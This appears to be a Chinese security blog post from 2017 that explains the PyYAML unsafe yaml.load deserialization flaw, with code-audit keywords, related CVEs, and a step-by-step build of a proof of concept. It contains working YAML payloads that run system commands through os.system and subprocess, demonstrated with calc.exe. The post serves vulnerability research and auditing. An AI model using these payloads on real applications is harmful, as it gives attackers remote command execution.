


Title:Python PyYAML反序列化漏洞实验和payload构造
Date: 2017-09-22 10:20
Category: 漏洞
Tags: python,PyYAML,反序列化,漏洞
Slug: 
Authors: bit4
Summary: 

### 0x0 概述

**什么程序存在漏洞：**

使用了PyYAML这个库并且使用了yaml.load而不是yaml.safe_load函数来解析yaml文件的程序

**代码审计关键词：**

import yaml

yaml.load(

**已知相关漏洞：**

Remote Code Execution Vulnerability in Ansible-Vault Library. (CVE-2017-2809)

<https://pypi.python.org/pypi/ansible-vault/1.0.4> ansible-vault <=1.0.4存在这个漏洞，在1.0.5中完成了修复

Remote Code Execution Vulnerability in Tablib. (CVE-2017-2810)

### 0x1 yaml和序列化

yaml和xml、json等类似，都是标记类语言，有自己的语法格式。各个支持yaml格式的语言都会有自己的实现来进行yaml格式的解析（读取和保存），其中PyYAML就是python的一个yaml库。

除开 YAML 格式中常规的列表、字典和字符串整形等类型转化外（基本数据类型），各个语言的 YAML 解析器或多或少都会针对其语言实现一套特殊的**对象转化规则**（也就是序列化和反序列化，这是关键点，是这个漏洞存在的前提)。比如：PyYAML 在解析数据的时候遇到特定格式的时间数据会将其自动转化为 Python 时间对象

- 序列化： 将数据结构或对象转换成二进制串（字节序列）的过程
- 反序列化：将在序列化过程中所生成的二进制串转换成数据结构或者对象的过程

将如下内容保存到sample.yml

```
date: !!str 2016-03-09
date1:  2016-03-09
weekday: Wednesday
weather: sunny
```

然后在同一目录下运行如下python 代码：

```
# !/usr/bin/env python
# -*- coding:utf-8 -*-
__author__ = 'bit4'
__github__ = 'https://github.com/bit4woo'

import yaml

print(yaml.load(file('sample.yml', 'r')))
```

可以看到如下结构，有“!!str”强制类型转换的，就成了字符串格式；没有类型转换的就是python中datetime.date对象。

图一



### **0x2** 代码执行PoC构造的尝试

**以笔者目前初浅的理解，要实现代码执行，就需要序列化和反序列的内容中出现该编程语言中的对象（函数、类），因为的对象的反序列化，是在构建一个对象的实例（实例化的过程）。如果一个对象中有函数的定义，有可执行代码，那么实例化后再通过方法调用或者其他的途径才能使其中的代码到执行。普通数据类型的反序列化只是变量相关的初始化、赋值等操作，不会涉及到逻辑处理的代码块，所有不会有代码的执行！（普通数据类型 = 数据，对象= 函数代码+数据）。**

通过跟踪$PYTHON_HOME/lib/site-packages/yaml/constructor.py文件，查看 PyYAML 源码可以得到其针对 Python 语言特有的标签解析的处理函数对应列表，其中有三个和对象相关：

```
!!python/object:          =>  Constructor.construct_python_object

!!python/object/apply:    =>  Constructor.construct_python_object_apply

!!python/object/new:      =>  Constructor.construct_python_object_new

```

通过如下代码，来序列化test类中的内容，

```
# !/usr/bin/env python
# -*- coding:utf-8 -*-
__author__ = 'bit4'
__github__ = 'https://github.com/bit4woo'
__filename__ = 'yaml_gen_poc.py'

import yaml
import os

class test:
    def __init__(self):
        os.system('calc.exe')

payload =  yaml.dump(test())

fp = open('simple.yml','w')
fp.write(payload)
```

可以看到simple.yml中写入的内容如下：

```
!!python/object:yaml_gen_poc.test {}
```

再运行yaml_verify.py来验证：

```
# !/usr/bin/env python
# -*- coding:utf-8 -*-
__author__ = 'bit4'
__github__ = 'https://github.com/bit4woo'
__filename__ = "yaml_verify.py"

import yaml

yaml.load(file('simple.yml', 'r'))
```

图二



成功执行了命令，弹出计算器。但是yaml_verify.py的成功运行，需要依赖yaml_gen_poc.py，因为它会根据yml文件中的指引去读取yaml_gen_poc.py中的test这个对象（类）。如果删除yaml_gen_poc.py，也将运行失败。

### **0x3 构造通用payload**

那么我们怎样消除这个依赖呢？就是将其中的类、或者函数 换成python标准库中的类或者函数。

直接修改yml文件为：

```
!!python/object:os.system ["calc.exe"]
```

再运行，失败（显示参数未传递：TypeError: system() takes exactly 1 argument (0 given)），尝试查看源码、并变换yml文件中语句格式，均未成功！（疑难点）。

修改为以下2种均成功，通过源码得知，new其实是调用了apply，他们的不同的地方是创建对象的方式，这里可以大致认为它们是一样的。

```
!!python/object/apply:os.system ["calc.exe"]
```

```
!!python/object/new:os.system ["calc.exe"]
```

既然解决了依赖问题，那我们就尝试构建一些有用的poc吧，从官方标准库里找可以用来执行命令的函数 <https://docs.python.org/2/library/index.html>

```
!!python/object/apply:subprocess.check_output [[calc.exe]]

!!python/object/apply:subprocess.check_output ["calc.exe"]

!!python/object/apply:subprocess.check_output [["calc.exe"]]

!!python/object/apply:os.system ["calc.exe"]

!!python/object/new:subprocess.check_output [["calc.exe"]]

!!python/object/new:os.system ["calc.exe"]

..................
```

本文测试代码地址

<https://github.com/bit4woo/code2sec.com/tree/master/code/YamlRCE>

### **0x4 参考**

<http://blog.talosintelligence.com/2017/09/vulnerability-spotlight-yaml-remote.html>

<http://rickgray.me/2016/03/09/pyyaml-tags-parse-to-command-execution.html>

<https://www.youtube.com/watch?v=kjZHjvrAS74>